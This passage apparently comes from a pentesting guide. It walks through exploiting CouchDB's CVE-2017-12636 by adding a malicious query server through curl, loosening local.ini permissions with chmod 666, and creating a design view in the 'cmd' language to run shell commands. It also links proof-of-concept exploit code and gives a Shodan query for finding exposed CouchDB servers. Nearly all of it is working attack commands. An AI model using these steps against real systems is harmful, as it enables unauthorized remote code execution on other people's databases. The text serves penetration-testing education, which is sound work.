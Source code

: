 To accommodate CouchDB version 2.0, a new path is utilized:

```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```

Attempts to add and invoke a new query server were met with permission-related errors, as indicated by the following output:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

Further investigation revealed permission issues with the `local.ini` file, which was not writable. By modifying the file permissions with root or homer access, it became possible to proceed:

```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```

Subsequent attempts to add the query server succeeded, as demonstrated by the lack of error messages in the response. The successful modification of the `local.ini` file was confirmed through file comparison:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

The process continued with the creation of a database and a document, followed by an attempt to execute code via a custom view mapping to the newly added query server:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```

A **[summary](https://github.com/carlospolop/hacktricks/pull/116/commits/e505cc2b557610ef5cce09df6a14b10caf8f75a0)** with an alternative payload provides further insights into exploiting CVE-2017-12636 under specific conditions. **Useful resources** for exploiting this vulnerability include:

- [POC exploit code](https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py)
- [Exploit Database entry](https://www.exploit-db.com/exploits/44913/)

## Shodan

* `port:5984 couchdb`

## References

* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)
